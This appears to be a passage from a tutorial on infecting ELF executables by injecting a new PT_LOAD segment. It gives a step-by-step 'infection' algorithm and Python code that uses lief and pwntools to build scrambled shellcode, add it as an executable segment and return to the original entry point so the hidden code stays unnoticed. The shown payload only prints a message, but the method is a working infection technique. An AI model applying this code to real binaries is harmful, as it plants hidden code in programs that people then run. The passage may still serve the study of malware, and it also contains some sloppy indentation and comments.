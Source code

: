 You also need to understand the attributes of this header type. We are interested in:

p_filesz = the size of the segment in the file

p_memsz = this size of the segment in the memory

p_flags = the permission flags (x,r,e)



Let's create our algorithm to create our shellcode to be injected.

## Algorithm of pt_load injection 

We will use two powerful libraries:

- lief
- pwntools 

You can check these libraries in your free time.


1. We need to parse the file to get into the entrypoint.

2. When this step is done, we shall create a new load segment

3. After creating; u can create your shellcode into that new segment

4. after injecting; do not forget to patch the binary. 

5. In order to trace the target, you can add the old entry point to the malicious to be hidden (your choice) but tracing 
anonymously will be useful.

6. when the fifth is done, save the binary as output.




## Creating the devil code


```python 

def infect(file, output):
    prGreen("[+] It has been infected")
    payload   = "dangerous is coming\n"
    evilfile  = lief.parse(file)
    devilcode = asm("mov esi, edx")   # edx will stored to the esi (file)
    devilcode += asm(pwnlib.shellcraft.i386.write(1, payload, len(payload)))
    devilcode =  pwnlib.encoders.encoder.scramble(devilcode) 
    hex_ = hex(evilfile.header.entrypoint)
    devilcode += asm(f"mov esi, edx; push {hex_}; ret")
    print("devilcode size : " ,len(devilcode))
		print(f"payload {devilcode}")                   
    # ------------------------------------------------------------------------------------------
    
    segment = lief.ELF.Segment() 
    segment.type =  lief.ELF.SEGMENT_TYPES.LOAD 
    segment.flags = lief.ELF.SEGMENT_FLAGS.X                        
    segment.content = bytearray(devilcode)                          
    segment.alignment = 0x1234                                     #segment alignment in memory.
    evilfile.add(segment)


```
